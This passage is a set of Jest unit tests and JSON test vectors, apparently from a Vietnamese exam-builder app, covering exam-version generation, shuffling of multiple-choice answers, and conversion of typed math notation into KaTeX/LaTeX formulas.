      ...Array.from({ length: 3 }, (_, i) => makeMCQ(`a${i}`, `A_${i}`, 'NB')),
      ...Array.from({ length: 5 }, (_, i) => makeMCQ(`b${i}`, `B_${i}`, 'VDC'))
    ];
    const blocks = [{ block_type: 'MULTIPLE_CHOICE', questions }];
    const versions = generateExamCodes(blocks, 3);
    const totalMCQ = versions.reduce((sum, v) => sum + v.blocks[0].questions.length, 0);
    expect(totalMCQ).toBe(8);
  });

  test('TC-11: cac ma de khong dung chung tham chieu cau hoi (clone doc lap)', () => {
    const blocks = [{ block_type: 'MULTIPLE_CHOICE', questions: [makeMCQ('m1', 'a'), makeMCQ('m2', 'b')] }];
    const versions = generateExamCodes(blocks, 2);
    const q1 = versions[0].blocks[0].questions[0];
    q1.content = 'DA SUA';
    const otherVersionSameId = versions[1].blocks[0].questions.find(q => q.content === 'DA SUA');
    expect(otherVersionSameId).toBeUndefined();
  });
});

// Bug 1 [Da sua]: truoc day de goc (chua tron ma de) khong xao dap an, nen
// neu nguon (AI/nguoi nhap) co thoi quen dat dap an dung o vi tri A thi ca
// de xuat ra cung bi thien lech toan "A". shuffleAllMCQOptions xao ngay tai
// buoc sinh de goc (generateBtn trong script.js) de sua trung.
describe('shuffleAllMCQOptions (Bug 1 - thien lech dap an)', () => {
  test('TC-12: giu nguyen id cau hoi, chi doi thu tu options/correct_answer', () => {
    const blocks = [{ id: 'b1', questions: [makeMCQ('q1', 'dung')] }];
    const before = JSON.stringify(blocks[0].questions[0].options.map(o => o.option_text).sort());
    shuffleAllMCQOptions(blocks);
    expect(blocks[0].questions[0].id).toBe('q1');
    expect(JSON.stringify(blocks[0].questions[0].options.map(o => o.option_text).sort())).toBe(before);
  });

  test('TC-13: option dung (is_correct) luon khop voi correct_answer sau khi xao', () => {
    const blocks = [{ id: 'b1', questions: Array.from({ length: 10 }, (_, i) => makeMCQ(`q${i}`, 'dung')) }];
    shuffleAllMCQOptions(blocks);
    blocks[0].questions.forEach(q => {
      const correctOpt = q.options.find(o => o.is_correct);
      expect(correctOpt.option_key).toBe(q.correct_answer);
    });
  });

  test('TC-14: khong sua cau TRUE_FALSE/FILL_BLANK/ESSAY (khong co options de xao)', () => {
    const tf = makeSimple('t1', 'TRUE_FALSE');
    const blocks = [{ id: 'b1', questions: [tf] }];
    shuffleAllMCQOptions(blocks);
    expect(blocks[0].questions[0].correct_answer).toBe('Dung');
  });

  test('TC-15: phan bo vi tri dap an dung tren 20 cau la deu (khong con toan "A")', () => {
    // Voi du lieu nguon luon dat dap an dung o vi tri A (kieu du lieu de
    // gay ra bug), sau khi xao, vi tri dap an dung phai trai deu tren
    // nhieu ky tu chu khong con don A. Nguong ep xac dinh (khong flaky):
    // voi 20 cau random 4 lua chon, xac suat het 20 cau deu roi vao dung
    // 1 vi tri la (1/4)^19 ~ 0 - test on dinh tuyet doi.
    const blocks = [{ id: 'b1', questions: Array.from({ length: 20 }, (_, i) => makeMCQ(`q${i}`, 'dung')) }];
    shuffleAllMCQOptions(blocks);
    const keyDistribution = new Set(blocks[0].questions.map(q => q.correct_answer));
    expect(keyDistribution.size).toBeGreaterThan(1);
  });
});

```

### FILE: tests/parser/mathFormat.test.js

```javascript
const { formatMathSymbols, latexToPlainText } = require('../../backend/parser/mathFormat.js');

/**
 * formatMathSymbols doi cac ky hieu toan hoc go tay bang ASCII (>=, <=>,
 * ^2, sqrt(...), m3...) NAM NGOAI dau $...$ sang Unicode; phan LaTeX BEN
 * TRONG $...$ duoc GIU NGUYEN VEN (ke ca dau $) de tang hien thi dung KaTeX
 * ve that thay vi tu "lam phang" bang regex (xem renderMathInline trong
 * script.js). latexToPlainText() la ham lam phang toan bo (ke ca $...$)
 * dung cho noi dung khong the render KaTeX (vd xuat file Word).
 */
describe('formatMathSymbols', () => {
  test('TC-MF-01: doi cac ky hieu so sanh/suy ra ASCII sang Unicode', () => {
    expect(formatMathSymbols('a >= b')).toBe('a ≥ b');
    expect(formatMathSymbols('a <= b')).toBe('a ≤ b');
    expect(formatMathSymbols('a != b')).toBe('a ≠ b');
    expect(formatMathSymbols('a <=> b')).toBe('a ⇔ b');
    expect(formatMathSymbols('a => b')).toBe('a ⇒ b');
    expect(formatMathSymbols('a -> b')).toBe('a → b');
    expect(formatMathSymbols('a <-> b')).toBe('a ↔ b');
  });

  test('TC-MF-02: uu tien thay the chuoi dai hon truoc (<=> khong bi vo thanh <= va =>)', () => {
    expect(formatMathSymbols('3x - 9 = 0 <=> 3x = 9 <=> x = 3')).toBe('3x - 9 = 0 ⇔ 3x = 9 ⇔ x = 3');
  });

  test('TC-MF-03: doi so mu ^2, ^3 sang chu so tren Unicode', () => {
    expect(formatMathSymbols('x^2 + y^3')).toBe('x² + y³');
    expect(formatMathSymbols('x^10')).toBe('x¹⁰');
  });

  test('TC-MF-04: doi don vi dien tich/the tich (m2, m3, cm3...) sang chu so tren', () => {
    expect(formatMathSymbols('dien tich 45 m2')).toBe('dien tich 45 m²');
    expect(formatMathSymbols('the tich 45 m3 nuoc')).toBe('the tich 45 m³ nuoc');
    expect(formatMathSymbols('10 cm3')).toBe('10 cm³');
  });

  test('TC-MF-05 [Da sua - chuyen sang $...$ LaTeX]: sqrt(...) go tay -> $\\sqrt{...}$ (KaTeX ve that)', () => {
    expect(formatMathSymbols('sqrt(16) = 4')).toBe('$\\sqrt{16} = 4$');
    expect(formatMathSymbols('SQRT(x)')).toBe('$\\sqrt{x}$');
  });

  test('TC-MF-06: doi dau nhan * giua 2 so hang thanh ×, giu nguyen phan so a/b', () => {
    expect(formatMathSymbols('a * b')).toBe('a × b');
    expect(formatMathSymbols('(2x - 1)/3 - (x - 2)/2 >= (x + 1)/6')).toBe('(2x - 1)/3 - (x - 2)/2 ≥ (x + 1)/6');
  });

  test('TC-MF-07: doi +- sang dau cong tru ±', () => {
    expect(formatMathSymbols('x = 2 +- 1')).toBe('x = 2 ± 1');
  });

  test('TC-MF-08: chuoi khong co ky hieu toan hoc thi giu nguyen', () => {
    expect(formatMathSymbols('Trinh bay nguyen nhan bien doi khi hau.')).toBe('Trinh bay nguyen nhan bien doi khi hau.');
  });

  test('TC-MF-09 [Edge]: dau vao khong phai string hoac rong thi tra ve nguyen ban', () => {
    expect(formatMathSymbols('')).toBe('');
    expect(formatMathSymbols(null)).toBe(null);
    expect(formatMathSymbols(undefined)).toBe(undefined);
  });

  test('TC-MF-10: ket qua da doi thi idempotent (chay lai lan 2 khong doi them)', () => {
    const once = formatMathSymbols('1/(1 + a^2) + 1/(1 + b^2) >= 2/(1 + ab).');
    const twice = formatMathSymbols(once);
    expect(twice).toBe(once);
    expect(once).toBe('1/(1 + a²) + 1/(1 + b²) ≥ 2/(1 + ab).');
  });

  test('TC-MF-11 [Da sua - chuyen sang KaTeX]: giu nguyen ven ca dau $ cua cong thuc LaTeX de KaTeX ve o tang hien thi', () => {
    expect(formatMathSymbols('$\\sin \\alpha$')).toBe('$\\sin \\alpha$');
  });

  test('TC-MF-11b: latexToPlainText van bo dau $ va doi LaTeX sang Unicode nhu truoc (dung cho xuat Word)', () => {
    expect(latexToPlainText('$\\sin \\alpha$')).toBe('sin α');
  });

  test('TC-MF-12 [Da sua - chuyen sang $...$ LaTeX]: \\frac{tu}{mau} tho -> $\\frac{...}{...}$', () => {
    expect(formatMathSymbols('\\frac{AC}{BC}')).toBe('$\\frac{AC}{BC}$');
    expect(formatMathSymbols('\\frac{x+1}{2}')).toBe('$\\frac{x+1}{2}$');
    expect(formatMathSymbols('\\frac{\\sqrt{3}}{2}')).toBe('$\\frac{\\sqrt{3}}{2}$');
  });

  test('TC-MF-13 [Da sua - chuyen sang $...$ LaTeX]: \\tan \\alpha (1 hang) -> Unicode; \\frac (2 chieu) -> $...$', () => {
    expect(formatMathSymbols('\\tan \\alpha = \\frac{\\sin \\alpha}{\\cos \\alpha}'))
      .toBe('tan α = $\\frac{\\sin \\alpha}{\\cos \\alpha}$');
  });

  test('TC-MF-14: doi chu cai Hy Lap \\alpha, \\beta sang Unicode', () => {
    expect(formatMathSymbols('\\alpha + \\beta = 90^\\circ')).toBe('α + β = 90°');
  });

  test('TC-MF-15: doi do ^\\circ va \\circ don le sang °', () => {
    expect(formatMathSymbols('\\cos 60^\\circ')).toBe('cos 60°');
    expect(formatMathSymbols('60^{\\circ}')).toBe('60°');
  });

  test('TC-MF-16: doi \\widehat{X} sang X co dau mu ket hop', () => {
    expect(formatMathSymbols('\\widehat{B} = \\alpha')).toBe('B̂ = α');
  });

  test('TC-MF-17 [Da sua - chuyen sang $...$ LaTeX]: \\sqrt{...} tho -> $\\sqrt{...}$ (nuot ca "= 4")', () => {
    expect(formatMathSymbols('\\sqrt{16} = 4')).toBe('$\\sqrt{16} = 4$');
    expect(formatMathSymbols('\\sqrt{37}')).toBe('$\\sqrt{37}$');
  });

  test('TC-MF-21 [Da sua - chuyen sang $...$ LaTeX]: \\sqrt{...} -> $...$ cho KaTeX ve vinculum that (khong dung ky tu ghep)', () => {
    const result = formatMathSymbols('\\sqrt{37}');
    expect(result).toBe('$\\sqrt{37}$');
    expect(result).not.toMatch(/̅/);
  });

  test('TC-MF-22 [Da sua - chuyen sang $...$ LaTeX]: \\sqrt{bieu thuc} tho -> $\\sqrt{...}$', () => {
    expect(formatMathSymbols('\\sqrt{x+1}')).toBe('$\\sqrt{x+1}$');
    expect(formatMathSymbols('\\sqrt{2x}')).toBe('$\\sqrt{2x}$');
  });

  test('TC-MF-23 [Da sua - chuyen sang $...$ LaTeX]: can long nhau giu nguyen LaTeX trong $...$ cho KaTeX', () => {
    const result = formatMathSymbols('AC = \\sqrt{(2\\sqrt{3})^2 + 5^2} = \\sqrt{37}');
    expect(result).toBe('AC = $\\sqrt{(2\\sqrt{3})^2 + 5^2} = \\sqrt{37}$');
  });

  test('TC-MF-24: chen dau "." khi 2 ky hieu LaTeX dinh lien nhau do bo dau \\ (nhan ngam Hy Lap-ham luong giac)', () => {
    expect(formatMathSymbols('\\sin \\alpha\\cos \\alpha')).toBe('sin α.cos α');
    expect(formatMathSymbols('\\tan \\alpha\\sin \\beta')).toBe('tan α.sin β');
  });

  test('TC-MF-25 [Edge]: khong chen dau "." khi da co khoang trang hoac tu tieng Anh chua "sin/cos" thi khong bi nham', () => {
    expect(formatMathSymbols('sin α cos α')).toBe('sin α cos α');
    expect(formatMathSymbols('The total cost is high, using x.')).toBe('The total cost is high, using x.');
  });

  test('TC-MF-18: doi \\cdot sang dau nhan ×, \\text{...} chi giu noi dung ben trong', () => {
    expect(formatMathSymbols('AC = BC \\cdot \\sin B')).toBe('AC = BC × sin B');
    expect(formatMathSymbols('AB = 3\\text{ cm}')).toBe('AB = 3 cm');
  });

  test('TC-MF-19 [Da sua - chuyen sang KaTeX]: cau hoi trac nghiem LaTeX day du (nhu AI sinh ra) chi doi phan van ban tieng Viet, giu nguyen tung cum $...$', () => {
    const raw = 'Cho tam giác $ABC$ vuông tại $A$ có góc nhọn $\\widehat{B} = \\alpha$. $\\sin \\alpha = \\frac{AC}{BC}$';
    expect(formatMathSymbols(raw)).toBe(raw);
  });

  test('TC-MF-19b: latexToPlainText lam sach hoan toan ca $...$ (dung cho xuat Word)', () => {
    const raw = 'Cho tam giác $ABC$ vuông tại $A$ có góc nhọn $\\widehat{B} = \\alpha$. $\\sin \\alpha = \\frac{AC}{BC}$';
    expect(latexToPlainText(raw)).toBe('Cho tam giác ABC vuông tại A có góc nhọn B̂ = α. sin α = AC/BC');
  });

  test('TC-MF-20 [Da sua - chuyen sang KaTeX]: dien tich hinh vuong voi don vi va so mu tu \\text{}^2, giu nguyen $...$', () => {
    expect(formatMathSymbols('$18\\text{ cm}^2$')).toBe('$18\\text{ cm}^2$');
  });

  test('TC-MF-20b: latexToPlainText van doi \\text{}^2 sang Unicode nhu truoc', () => {
    expect(latexToPlainText('$18\\text{ cm}^2$')).toBe('18 cm²');
  });

  test('TC-MF-26 [Da sua - chuyen sang $...$ LaTeX]: \\sqrt[n]{...} tho -> $\\sqrt[n]{...}$', () => {
    expect(formatMathSymbols('\\sqrt[3]{27} = 3')).toBe('$\\sqrt[3]{27} = 3$');
    expect(formatMathSymbols('\\sqrt[3]{-8} = -2')).toBe('$\\sqrt[3]{-8} = -2$');
    expect(formatMathSymbols('\\sqrt[3]{a}')).toBe('$\\sqrt[3]{a}$');
    expect(formatMathSymbols('\\sqrt[4]{16} = 2')).toBe('$\\sqrt[4]{16} = 2$');
  });

  test('TC-MF-27 [Da sua - chuyen sang $...$ LaTeX]: \\sqrt[5]{...} tho -> $\\sqrt[5]{...}$', () => {
    expect(formatMathSymbols('\\sqrt[5]{32} = 2')).toBe('$\\sqrt[5]{32} = 2$');
  });

  test('TC-MF-28 [Da sua - chuyen sang KaTeX]: (\\sqrt[3]{...})^3 = a giu nguyen $...$ de KaTeX ve, chi doi phan van ban tieng Viet ben ngoai', () => {
    const result = formatMathSymbols('$(\\sqrt[3]{a})^3 = a$ đúng với mọi số thực $a$.');
    expect(result).toBe('$(\\sqrt[3]{a})^3 = a$ đúng với mọi số thực $a$.');
  });

  test('TC-MF-28b: latexToPlainText van lam sach hoan toan (khong con \\sqrt[ hay dau ngoac nhon)', () => {
    const result = latexToPlainText('$(\\sqrt[3]{a})^3 = a$ đúng với mọi số thực $a$.');
    expect(result).toBe('(∛(a))³ = a đúng với mọi số thực a.');
    expect(result).not.toMatch(/\\sqrt|[{}]/);
  });

  test('TC-MF-29: doi \\ge \\le \\ne \\pm \\mp sang ky hieu Unicode (dang lenh LaTeX, khac ASCII >= <= !=)', () => {
    expect(formatMathSymbols('a \\ge 0')).toBe('a ≥ 0');
    expect(formatMathSymbols('a \\le 0')).toBe('a ≤ 0');
    expect(formatMathSymbols('a \\ne 0')).toBe('a ≠ 0');
    expect(formatMathSymbols('x = 2 \\pm 1')).toBe('x = 2 ± 1');
    expect(formatMathSymbols('x = 2 \\mp 1')).toBe('x = 2 ∓ 1');
  });

  test('TC-MF-30: doi \\Rightarrow \\Leftrightarrow \\Leftarrow \\to sang mui ten Unicode', () => {
    expect(formatMathSymbols('x \\Rightarrow y')).toBe('x ⇒ y');
    expect(formatMathSymbols('x \\Leftrightarrow y')).toBe('x ⇔ y');
    expect(formatMathSymbols('x \\Leftarrow y')).toBe('x ⇐ y');
    expect(formatMathSymbols('x \\to y')).toBe('x → y');
  });

  test('TC-MF-31: doi \\in \\notin sang ∈/∉, \\mathbb{R|N|Z|Q|C} sang chu dam bang Unicode', () => {
    expect(formatMathSymbols('x \\in \\mathbb{R}')).toBe('x ∈ ℝ');
    expect(formatMathSymbols('x \\notin \\mathbb{N}')).toBe('x ∉ ℕ');
    expect(formatMathSymbols('\\mathbb{Z}, \\mathbb{Q}, \\mathbb{C}')).toBe('ℤ, ℚ, ℂ');
  });

  test('TC-MF-32 [Da sua - chuyen sang KaTeX]: cau Dung/Sai LaTeX day du chua \\in \\mathbb{R} giu nguyen tung cum $...$, chi doi van ban tieng Viet xen giua', () => {
    const raw = 'Căn thức $\\sqrt{x}$ xác định với mọi giá trị của $x \\in \\mathbb{R}$.';
    expect(formatMathSymbols(raw)).toBe(raw);
  });

  test('TC-MF-32b: latexToPlainText van lam sach hoan toan (dung cho xuat Word)', () => {
    const result = latexToPlainText('Căn thức $\\sqrt{x}$ xác định với mọi giá trị của $x \\in \\mathbb{R}$.');
    expect(result).toBe('Căn thức √(x) xác định với mọi giá trị của x ∈ ℝ.');
    expect(result).not.toMatch(/\\in|\\mathbb|[{}]/);
  });

  test('TC-MF-33 [Edge]: dau "$" le loi (khong co dau dong cap) o ben ngoai van bi xoa nhu truoc (khong doi hanh vi cu)', () => {
    expect(formatMathSymbols('Giá 5$ vẫn còn đó')).toBe('Giá 5 vẫn còn đó');
  });

  test('TC-MF-34 [Da sua - chuyen sang $...$ LaTeX]: cum $...$ co san giu nguyen; sqrt(16) go tay -> $\\sqrt{16} = 4$', () => {
    const raw = 'Cho $a \\ge 0$, ta có $\\sqrt{a}$, và sqrt(16) = 4.';
    expect(formatMathSymbols(raw)).toBe('Cho $a \\ge 0$, ta có $\\sqrt{a}$, và $\\sqrt{16} = 4$.');
  });

  // --- TASK C: chot chan du lieu hong (khong bao gio lam phang \sqrt/\frac/\begin ngoai $...$) ---

  test('TC-MF-35 [khoa]: \\sqrt{80} va \\frac{1}{2} tho ngoai $...$ -> boc $...$, KHONG lam phang', () => {
    const result = formatMathSymbols('Cho \\sqrt{80} va \\frac{1}{2} ngoai dola');
    expect(result).toBe('Cho $\\sqrt{80}$ va $\\frac{1}{2}$ ngoai dola');
    expect(result).not.toMatch(/√80|(?<!\{)1\/2/);
  });

  test('TC-MF-36 [khoa]: \\begin{cases}...\\end{cases} tran -> $$...$$ (block)', () => {
    const raw = '\\begin{cases} x + y = 1 \\\\ x - y = 3 \\end{cases}';
    expect(formatMathSymbols(raw)).toBe('$$' + raw + '$$');
  });

  test('TC-MF-37 [khoa]: bao toan tieng Viet - khong keo chu vao $...$, khong nham phan so', () => {
    expect(formatMathSymbols('phương án B')).toBe('phương án B');
    expect(formatMathSymbols('vận tốc 15 km/h')).toBe('vận tốc 15 km/h');
    expect(formatMathSymbols('đúng và/hoặc gần đúng')).toBe('đúng và/hoặc gần đúng');
    expect(formatMathSymbols('Làm Câu 12/5 SGK trang 40')).toBe('Làm Câu 12/5 SGK trang 40');
  });

  test('TC-MF-38 [khoa]: bat dang thuc nhieu phan so go tay (co khoang trang) GIU nguyen ASCII', () => {
    expect(formatMathSymbols('(2x - 1)/3 - (x - 2)/2 >= (x + 1)/6'))
      .toBe('(2x - 1)/3 - (x - 2)/2 ≥ (x + 1)/6');
  });
});

```

### FILE: tests/parser/mathFraction.test.js

```javascript
const { isLikelyFraction } = require('../../backend/parser/mathFraction.js');

/**
 * isLikelyFraction(num, den): heuristic phan biet "toan hang phan so" voi
 * van xuoi / don vi do luong. mathToLatex.js dung khi quyet dinh co boc
 * "a/b" thanh $\frac{a}{b}$ hay khong.
 */
describe('isLikelyFraction', () => {
  test('TC-FR-01: cap toan hang hop le', () => {
    expect(isLikelyFraction('3', '4')).toBe(true);
    expect(isLikelyFraction('AH', 'AB')).toBe(true);
    expect(isLikelyFraction('m', 'n')).toBe(true);          // phan so bien ngan
    expect(isLikelyFraction('sin α', 'cos α')).toBe(true);
    expect(isLikelyFraction('(2x - 1)', '3')).toBe(true);
  });

  test('TC-FR-02: tu noi tieng Viet ("va/hoac") bi chan', () => {
    expect(isLikelyFraction('và', 'hoặc')).toBe(false);
    expect(isLikelyFraction('hay', 'không')).toBe(false);
  });

  test('TC-FR-03: cap don vi do luong bi chan', () => {
    expect(isLikelyFraction('km', 'h')).toBe(false);
    expect(isLikelyFraction('m', 's')).toBe(false);
    expect(isLikelyFraction('kg', 'm3')).toBe(false);
  });

  test('TC-FR-04: tu xuoi thuong dai (>= 3 ky tu, chu thuong) bi chan', () => {
    expect(isLikelyFraction('hỏi', 'trả')).toBe(false);
    expect(isLikelyFraction('của', 'một')).toBe(false);
  });

  test('TC-FR-05 [Edge]: ve rong -> false', () => {
    expect(isLikelyFraction('', '4')).toBe(false);
    expect(isLikelyFraction('3', '  ')).toBe(false);
  });
});

```

### FILE: tests/parser/mathPromoteVectors.json

```json
[
  { "id": "V01-sqrt-int-bare",        "input": "\\sqrt{80}",                                  "expected": "$\\sqrt{80}$" },
  { "id": "V02-sqrt-in-sentence",     "input": "Ket qua \\sqrt{16} = 4",                       "expected": "Ket qua $\\sqrt{16} = 4$" },
  { "id": "V03-sqrt-nth-frac-bare",   "input": "\\sqrt[3]{27}",                                "expected": "$\\sqrt[3]{27}$" },
  { "id": "V04-frac-bare",            "input": "\\frac{a}{b}",                                 "expected": "$\\frac{a}{b}$" },
  { "id": "V05-frac-nested-sqrt",     "input": "\\frac{\\sqrt{3}}{2}",                         "expected": "$\\frac{\\sqrt{3}}{2}$" },
  { "id": "V06-sqrt-ascii-call",      "input": "sqrt(16) = 4",                                 "expected": "$\\sqrt{16} = 4$" },
  { "id": "V07-sqrt-ascii-expr",      "input": "sqrt(x + 1)",                                  "expected": "$\\sqrt{x + 1}$" },
  { "id": "V08-radical-unicode-int",  "input": "√16",                                          "expected": "$\\sqrt{16}$" },
  { "id": "V09-radical-unicode-paren","input": "√(x + 1)",                                     "expected": "$\\sqrt{x + 1}$" },
  { "id": "V10-cbrt-unicode",         "input": "∛27",                                          "expected": "$\\sqrt[3]{27}$" },
  { "id": "V11-fourth-root-unicode",  "input": "∜16",                                          "expected": "$\\sqrt[4]{16}$" },
  { "id": "V12-nth-root-superscript", "input": "⁵√32",                                         "expected": "$\\sqrt[5]{32}$" },
  { "id": "V13-radical-nested",       "input": "√((√3+1)²)",                                   "expected": "$\\sqrt{(\\sqrt{3}+1)^{2}}$" },
  { "id": "V14-frac-of-two-radicals", "input": "phép tính √80 / √5 là",                        "expected": "phép tính $\\frac{\\sqrt{80}}{\\sqrt{5}}$ là" },
  { "id": "V15-frac-num-over-radical","input": "2 / √3",                                       "expected": "$\\frac{2}{\\sqrt{3}}$" },
  { "id": "V16-frac-plain-digits",    "input": "3/4",                                          "expected": "$\\frac{3}{4}$" },
  { "id": "V17-frac-plain-vars",      "input": "AH/AB",                                        "expected": "$\\frac{AH}{AB}$" },
  { "id": "V18-leading-coeff-parens", "input": "(2√3)",                                        "expected": "$(2\\sqrt{3})$" },
  { "id": "V19-hugging-parens-frac",  "input": "(2 * √3) / (√3 * √3)",                         "expected": "$\\frac{(2 \\times \\sqrt{3})}{(\\sqrt{3} \\times \\sqrt{3})}$" },
  { "id": "V20-merge-adjacent-op",    "input": "√80 + √5",                                     "expected": "$\\sqrt{80} + \\sqrt{5}$" },
  { "id": "V21-absorb-trailing-eq",   "input": "√16 = 4",                                      "expected": "$\\sqrt{16} = 4$" },
  { "id": "V22-begin-cases-bare",     "input": "\\begin{cases} x + y = 1 \\\\ x - y = 3 \\end{cases}", "expected": "$$\\begin{cases} x + y = 1 \\\\ x - y = 3 \\end{cases}$$" },
  { "id": "V23-vi-connector-word",    "input": "Đáp án đúng và/hoặc gần đúng.",                 "expected": "Đáp án đúng và/hoặc gần đúng." },
  { "id": "V24-vi-unit-kmh",          "input": "vận tốc 15 km/h",                              "expected": "vận tốc 15 km/h" },
  { "id": "V25-vi-reference-cau",     "input": "Làm Câu 12/5 SGK",                             "expected": "Làm Câu 12/5 SGK" },
  { "id": "V26-vi-prose-slash",       "input": "kết quả √2 / phương án B",                     "expected": "kết quả $\\sqrt{2}$ / phương án B" },
  { "id": "V27-inequality-ascii-kept","input": "(2x - 1)/3 - (x - 2)/2 >= (x + 1)/6",          "expected": "(2x - 1)/3 - (x - 2)/2 >= (x + 1)/6" },
  { "id": "V28-one-line-symbols-kept","input": "x^2 + y^2 <= 4",                               "expected": "x^2 + y^2 <= 4" },
  { "id": "V29-protected-span-kept",  "input": "Cho $a \\ge 0$ va $\\sqrt{a}$, tính $\\frac{a}{2}$.", "expected": "Cho $a \\ge 0$ va $\\sqrt{a}$, tính $\\frac{a}{2}$." },
  { "id": "V30-odd-dollar-untouched", "input": "Giá 5$ vẫn còn \\sqrt{9}",                     "expected": "Giá 5$ vẫn còn $\\sqrt{9}$" },
  { "id": "V31-unbalanced-paren",     "input": "√(x + 1",                                      "expected": "√(x + 1" },
  { "id": "V32-plain-prose",          "input": "Trình bày nguyên nhân biến đổi khí hậu.",      "expected": "Trình bày nguyên nhân biến đổi khí hậu." }
]

```

### FILE: tests/parser/mathPromoteVectors.test.js

```javascript
const fs = require('fs');
const path = require('path');
const { promoteStructuralMath } = require('../../backend/parser/mathToLatex.js');

/**
 * "Hop dong" dung chung giua bo chuan hoa cong thuc toan tren WEB
 * (backend/parser/mathToLatex.js :: promoteStructuralMath) va ANDROID
 * (Exam builder for adr/.../math/MathPromote.kt :: MathConvert.promoteStructuralMath).
 *
 * Moi vector { id, input, expected } o day cung phai dung khi chay bang ban
 * Kotlin (xem app/src/test/.../MathPromoteTest.kt - port cung bang nay). Sua
 * vector -> sua ca 2 ben.
 */
const vectors = JSON.parse(
  fs.readFileSync(path.join(__dirname, 'mathPromoteVectors.json'), 'utf8')
);

describe('mathPromoteVectors (hop dong JS <-> Kotlin)', () => {
  test('>= 20 vector, phu du cac nhom', () => {
    expect(vectors.length).toBeGreaterThanOrEqual(20);
  });

  for (const { id, input, expected } of vectors) {
    test(`${id}: ${JSON.stringify(input)}`, () => {
      const once = promoteStructuralMath(input);
      expect(once).toBe(expected);
      // idempotent tuyet doi
      expect(promoteStructuralMath(once)).toBe(once);
    });
  }
});

```

### FILE: tests/parser/mathRadical.test.js

```javascript
const { findMatchingParen } = require('../../backend/parser/mathRadical.js');

/**
 * findMatchingParen: tim dau ")" khop voi "(" tai openIndex, co tinh long
 * nhau. Dung khi mathToLatex.js boc "sqrt(...)" / "√(...)" thanh $...$ LaTeX.
 */
describe('findMatchingParen', () => {
  test('TC-RD-01: ngoac don gian', () => {
    expect(findMatchingParen('(x + 1)', 0)).toBe(6);
  });

  test('TC-RD-02: ngoac long nhau -> khop dung lop ngoai', () => {
    expect(findMatchingParen('((√3+1)²)', 0)).toBe(8);
    expect(findMatchingParen('√((√3+1)²) + 1', 1)).toBe(9);
  });

  test('TC-RD-03: ngoac trong noi dung dai hon', () => {
    const s = 'AH = √(AB × AC) roi';
    const open = s.indexOf('(');
    expect(findMatchingParen(s, open)).toBe(s.indexOf(')'));
  });

  test('TC-RD-04 [Edge]: ngoac khong khop -> -1', () => {
    expect(findMatchingParen('√(x + 1', 1)).toBe(-1);
    expect(findMatchingParen('(((', 0)).toBe(-1);
  });
});

```

### FILE: tests/parser/mathToLatex.test.js

```javascript
const { promoteStructuralMath } = require('../../backend/parser/mathToLatex.js');

/**
 * promoteStructuralMath: boc moi cau truc toan 2 chieu (can, phan so, can
 * bac n, luy thua chong...) nam NGOAI $...$ thanh cong thuc LaTeX $...$
 * chuan, de KaTeX (web) / JLaTeXMath (Android) ve THAT. Ky hieu 1 hang
 * (x^2, <=, ×...) giu nguyen. Idempotent.
 */
describe('promoteStructuralMath', () => {
  test('TC-ML-01: \\sqrt{...} tho (loi AI hay gap) chi duoc them dau $, khong bien doi', () => {
    expect(promoteStructuralMath('\\sqrt{80}')).toBe('$\\sqrt{80}$');
    // [Da sua] "= 4" (toan hang so tran) duoc nuot vao cum de KaTeX ve lien mach.
    expect(promoteStructuralMath('Ket qua \\sqrt{16} = 4')).toBe('Ket qua $\\sqrt{16} = 4$');
  });

  test('TC-ML-02: \\sqrt[n]{...} va \\frac{...}{...} tho -> $...$', () => {
    expect(promoteStructuralMath('\\sqrt[3]{27}')).toBe('$\\sqrt[3]{27}$');
    expect(promoteStructuralMath('\\frac{a}{b}')).toBe('$\\frac{a}{b}$');
    expect(promoteStructuralMath('\\frac{\\sqrt{3}}{2}')).toBe('$\\frac{\\sqrt{3}}{2}$');
  });

  test('TC-ML-03: sqrt(...) ASCII -> $\\sqrt{...}$', () => {
    // [Da sua] "= 4" tran duoc nuot vao cum (dong bo voi TC-ML-12).
    expect(promoteStructuralMath('sqrt(16) = 4')).toBe('$\\sqrt{16} = 4$');
    expect(promoteStructuralMath('sqrt(x + 1)')).toBe('$\\sqrt{x + 1}$');
  });

  test('TC-ML-04: can Unicode √ (du lieu cu da bi lam phang) -> $\\sqrt{...}$', () => {
    expect(promoteStructuralMath('√16')).toBe('$\\sqrt{16}$');
    expect(promoteStructuralMath('√(x + 1)')).toBe('$\\sqrt{x + 1}$');
    expect(promoteStructuralMath('∛27')).toBe('$\\sqrt[3]{27}$');
    expect(promoteStructuralMath('∜16')).toBe('$\\sqrt[4]{16}$');
    expect(promoteStructuralMath('⁵√32')).toBe('$\\sqrt[5]{32}$');
  });

  test('TC-ML-05: can long nhau √((√3+1)²) chuyen het, khong con ky tu Unicode', () => {
    const r = promoteStructuralMath('√((√3+1)²)');
    expect(r).toBe('$\\sqrt{(\\sqrt{3}+1)^{2}}$');
    expect(r).not.toMatch(/[√²]/);
  });

  test('TC-ML-06: "√80 / √5" -> phan so xep chong (ca 2 ve deu la can -> tin hieu manh)', () => {
    expect(promoteStructuralMath('phép tính √80 / √5 là'))
      .toBe('phép tính $\\frac{\\sqrt{80}}{\\sqrt{5}}$ là');
  });

  test('TC-ML-07: "2 / √3" -> $\\frac{2}{\\sqrt{3}}$', () => {
    expect(promoteStructuralMath('2 / √3')).toBe('$\\frac{2}{\\sqrt{3}}$');
  });

  test('TC-ML-08: phan so so thuan 3/4 (khong khoang trang) -> $\\frac{3}{4}$', () => {
    expect(promoteStructuralMath('3/4')).toBe('$\\frac{3}{4}$');
    expect(promoteStructuralMath('AH/AB')).toBe('$\\frac{AH}{AB}$');
  });

  test('TC-ML-09: khong nham tu noi / don vi / tu xuoi thanh phan so', () => {
    expect(promoteStructuralMath('Đáp án đúng và/hoặc gần đúng.')).toBe('Đáp án đúng và/hoặc gần đúng.');
    expect(promoteStructuralMath('vận tốc 15 km/h')).toBe('vận tốc 15 km/h');
    expect(promoteStructuralMath('câu hỏi/trả lời')).toBe('câu hỏi/trả lời');
  });

  test('TC-ML-10: bien "chu cai co dau" chan cat tu xuoi lam ve phan so', () => {
    // "$\\sqrt{2}$ / phương án" khong duoc thanh \\frac{\\sqrt{2}}{ph}
    expect(promoteStructuralMath('kết quả √2 / phương án B'))
      .toBe('kết quả $\\sqrt{2}$ / phương án B');
  });

  test('TC-ML-11: he so + ngoac om sat cum can -> nuot vao $...$', () => {
    expect(promoteStructuralMath('(2√3)')).toBe('$(2\\sqrt{3})$');
    expect(promoteStructuralMath('(2 * √3) / (√3 * √3)'))
      .toBe('$\\frac{(2 \\times \\sqrt{3})}{(\\sqrt{3} \\times \\sqrt{3})}$');
  });

